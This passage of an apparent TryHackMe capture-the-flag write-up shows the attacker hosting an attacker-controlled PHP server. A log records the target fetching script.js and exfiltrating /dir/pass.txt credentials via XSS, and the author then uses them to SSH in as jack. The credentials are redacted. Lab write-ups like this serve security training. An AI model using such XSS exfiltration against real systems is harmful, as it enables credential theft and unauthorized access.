 Finally, we need to run a simple PHP web server, host our files on it, and wait.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ ls
index.php script.js

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ php -S 0.0.0.0:8000
[Fri Oct 25 18:20:33 2024] PHP 8.2.21 Development Server (http://0.0.0.0:8000) started
```

After some minutes, we will receive a GET request from the target that will import the Javascript file and another GET request that will send us the content of the `/dir/pass.txt` file.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ php -S 0.0.0.0:8000
<SNIP>
[Fri Oct 25 18:21:03 2024] 10.10.16.114:51500 [200]: GET /script.js
[Fri Oct 25 18:21:03 2024] 10.10.16.114:51500 Closing
[Fri Oct 25 18:21:03 2024] 10.10.16.114:51520 Accepted
[Fri Oct 25 18:21:03 2024] 10.10.16.114:51520 [200]: GET /index.php?c=jack%3A<REDACTED>IDK%0A
[Fri Oct 25 18:21:03 2024] 10.10.16.114:51520 Closing
```

We can open the new file created by the PHP script to view the content of the `/dir/pass.txt` file we exfiltrated using XSS.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ cat pass.txt 
jack:<REDACTED>
```

This looks like a pair of credentials as mentioned in the message we hosted on the FTP server. We can use these credentials to log in using SSH and read the flag.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ ssh jack@10.10.16.114                 
The authenticity of host '10.10.16.114 (10.10.16.114)' can't be established.
ED25519 key fingerprint is SHA256:4vHbB54RGaVtO3RXlzRq50QWtP3O7aQcnFQiVMyKot0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.16.114' (ED25519) to the list of known hosts.
jack@10.10.16.114's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-159-generic x86_64)
<SNIP>

Last login: Mon Jan 29 13:44:19 2024
jack@ubuntu:~$ ls
user.txt
```


## Post Exploitation
